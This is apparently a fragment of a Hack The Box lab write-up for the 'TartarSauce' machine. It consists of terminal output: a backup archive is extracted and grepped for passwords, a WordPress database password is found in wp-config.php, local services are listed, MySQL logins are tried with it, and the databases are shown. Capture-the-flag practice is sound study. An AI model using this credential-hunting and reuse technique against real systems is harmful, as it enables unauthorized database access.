
kali@kali:~/htb/boxes/tartarsauce/10.10.10.88/backup$ file backup
backup: POSIX tar archive (GNU)

kali@kali:~/htb/boxes/tartarsauce/10.10.10.88/backup$ tar xf backup
kali@kali:~/htb/boxes/tartarsauce/10.10.10.88/backup$ ls
backup  backup.zip  var


grep -irn password .


./var/www/html/webservices/wp/wp-config.php:29:define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');


www-data@TartarSauce:/dev/shm$ netstat -tulpen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      107        23291       -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      0          23244       -           


www-data@TartarSauce:/dev/shm$ mysql -uroot -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)
www-data@TartarSauce:/dev/shm$ mysql -uadmin -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'admin'@'localhost' (using password: YES)



./var/www/html/webservices/wp/wp-config.php:26:define('DB_USER', 'wpuser');


![](2021-01-15-16-19-59.png)

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wp                 |
+--------------------+
2 rows in set (0.00 sec)

